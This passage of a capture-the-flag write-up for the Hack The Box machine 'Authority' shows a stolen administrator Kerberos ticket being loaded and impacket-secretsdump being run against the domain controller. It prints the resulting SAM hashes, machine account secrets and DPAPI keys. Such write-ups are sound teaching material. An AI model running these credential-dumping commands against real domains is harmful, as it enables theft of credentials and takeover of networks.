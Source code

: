 ![Kerberos Ticket acquired](/assets/img/Authority/Authority_13.png)

For ease of use I moved the ticket to the tmp directory and set my **KRB5CCNAME** to this file's location. We need to do this to be able to use commands using kerberos authentication.

```bash
cp administrator.ccache /tmp/
export KRB5CCNAME=/tmp/administrator.ccache
```

So seeing that we have a valid kerberos ticket, we can now use this in combination with secrets dump to dump all hashes from the domain controller.

```bash
impacket-secretsdump  'authority.htb/administrator@authority.authority.htb' -k -no-pass -dc-ip 10.10.11.222 -target-ip 10.10.11.222
```

![Hashes dumped](/assets/img/Authority/Authority_14.png)

```
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Target system bootKey: 0x31f4629800790a973f9995cec47514c6
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a15217bb5af3046c87b5bb6afa7b193e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
HTB\AUTHORITY$:plain_password_hex:af1fe8de903f881d7c288ae86e2d57c337067be085c87d7fbeb1999729478726c5306fe370d0dcdcf972875725ebfbdd7a81143780f8f0e56da106c63c26bdf934dbf63158972d237eb29cf3ef63af949271d94964592d564251ee2d453a2f83a51aaceaf4c0d5a5e2d1c65922c6f865075af79596237ae620c425862a89aa875240c69d9fb689b9c83c55fd6efc4d92c75c229e00e5ae338a17f3cc246591c0c1fd7974a10e1a5121af6acdba0eb32b9835df2eb2b82c49af22ccb471dc9193ceaa4ec0fd8703ad5a756fedc854d398595949809d940755e103391eda3e03988eb58e511cf01da913c6e7e5ed5f99b5
HTB\AUTHORITY$:aad3b435b51404eeaad3b435b51404ee:9cf1b478ebcd502363a5c4daac1ef9da:::
[*] DPAPI_SYSTEM 
dpapi_machinekey:0xd5d60027f85b1132cef2cce88a52670918252114
dpapi_userkey:0x047c1e3ad8db9d688c3f1e9ea06c8f2caf002511
[*] NL$KM 
```